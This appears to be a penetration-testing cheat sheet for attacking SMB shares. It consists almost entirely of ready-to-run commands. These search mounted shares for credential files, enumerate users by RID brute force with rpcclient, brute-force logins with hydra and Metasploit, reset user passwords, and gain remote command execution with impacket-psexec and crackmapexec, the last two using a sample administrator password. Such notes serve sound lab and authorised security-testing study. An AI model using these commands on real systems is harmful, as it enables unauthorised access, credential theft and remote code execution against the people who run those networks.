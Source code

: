 ```
domain=.
```
We need to install cifs-utils to connect to an SMB share folder. To install it we can execute from the command line 
```
sudo apt install cifs-utils
```
Once a shared folder is mounted, you can use common Linux tools such as find or grep to interact with the file structure. Let's hunt for a filename that contains the string cred
```
find /mnt/Finance -name *cred*
```
Find files that contain the string cred
```
grep -rn /mnt/Finance/ -ie cred
```
# Attacking SMB
### metasploit
SMB exploit using metasploit
```
use exploit(windows/smb/psexec)
```
```
use auxiliary/scanner/smb/smb_login
```
Download files where msfconsole was opened
```
download <file.txt>
```
Upload files
```
upload <file.zip>
```
### rpcclient
We can use the rpcclient to brute force the RIDs to get information.
```
for i in $(seq 500 1100);do rpcclient -N -U "" 10.129.14.128 -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo "";done
```
```
samrdump.py 10.129.14.128
```
Change a user password (if you have `ForceChangePassword` privilege for example)
```
setuserinfo2 <user> 23 '<password>'
```
### SMB Brute Force
```
hydra -L user.list -P password.list smb://10.129.42.197
```

## Remote Code Execution (RCE)
### Impacket
Impacket PsExec, the same options apply to impacket-smbexec and impacket-atexec
```
impacket-psexec administrator:'Password123!'@10.10.110.17
```
### CrackMapExec 
The option -x to run cmd commands or uppercase -X to run PowerShell commands.
```
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```